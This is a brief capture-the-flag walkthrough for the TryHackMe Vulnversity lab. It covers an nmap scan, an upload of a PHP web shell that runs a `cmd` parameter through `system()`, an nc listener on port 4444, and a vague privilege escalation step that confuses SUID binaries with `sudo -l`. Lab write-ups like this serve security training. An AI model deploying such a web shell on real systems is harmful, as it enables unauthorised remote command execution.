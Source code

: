 # 🛡️ TryHackMe - Vulnversity Walkthrough

## 📎 Room Link
[Vulnversity](https://tryhackme.com/room/vulnversity)

## 🖥 Target IP
10.10.X.X

## 🔍 Nmap Scan

```bash
nmap -sC -sV -oN vulnversity-nmap.txt 10.10.X.X
```

Found multiple services: FTP, SSH, HTTP, etc.

## 🧠 Exploitation

Uploaded reverse shell via file upload vuln.

```php
<?php
  system($_GET['cmd']);
?>
```

Used listener:
```bash
nc -lvnp 4444
```

## 🔐 Privilege Escalation

Found SUID binary `sudo -l` → used for escalation.

---

## ✅ Flags

- [x] User.txt
- [x] Root.txt
